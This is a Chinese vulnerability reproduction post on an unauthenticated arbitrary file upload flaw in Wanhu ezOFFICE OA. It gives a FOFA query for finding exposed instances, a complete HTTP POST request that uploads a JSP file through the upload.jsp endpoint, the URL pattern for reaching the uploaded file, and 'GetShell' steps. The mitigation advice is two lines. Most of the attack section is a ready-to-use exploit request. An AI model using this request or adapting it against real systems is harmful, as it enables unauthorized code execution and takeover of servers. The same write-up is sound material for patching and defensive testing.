





# 万户OA upload任意文件上传漏洞复现

### 0x01 产品简介

   万户[OA](https://so.csdn.net/so/search?q=OA&spm=1001.2101.3001.7020) ezoffice是万户网络协同办公产品多年来一直将主要精力致力于中高端市场的一款OA协同办公软件产品，统一的基础管理平台，实现用户数据统一管理、权限统一分配、身份统一认证。统一规划门户网站群和协同办公平台，将外网信息维护、客户服务、互动交流和日常工作紧密结合起来，有效提高工作效率。

### 0x02 漏洞概述

 万户ezOFFICE协同管理平台upload接口处存在任意[文件上传漏洞](https://so.csdn.net/so/search?q=%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，未经身份认证的攻击者可以通过此漏洞上传恶意后门文件，造成代码执行或服务器失陷。

### 0x03 复现环境

FOFA：app="万户ezOFFICE协同管理平台"



### 0x04 漏洞复现 

PoC

```cobol
POST /defaultroot/platform/portal/layout/common/upload.jsp?portletSettingId=123&path=abc HTTP/1.1
Host: your-ip
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=b0d829daa06c13d6b3e16b0ad21d1eed

--b0d829daa06c13d6b3e16b0ad21d1eed
Content-Disposition: form-data; name="file"; filename="1.jsp"
Content-Type: application/octet-stream

<%out.print("test");%>
--b0d829daa06c13d6b3e16b0ad21d1eed--
```



验证url

```cobol
http://your-ip/defaultroot/upload/abc(path参数的值)/202311(现年月)/(返回的文件名).jsp
```



GetShell 



尝试连接 



### 0x05 修复建议

关闭互联网暴露面或接口处设置访问权限

打补丁或升级安全版本
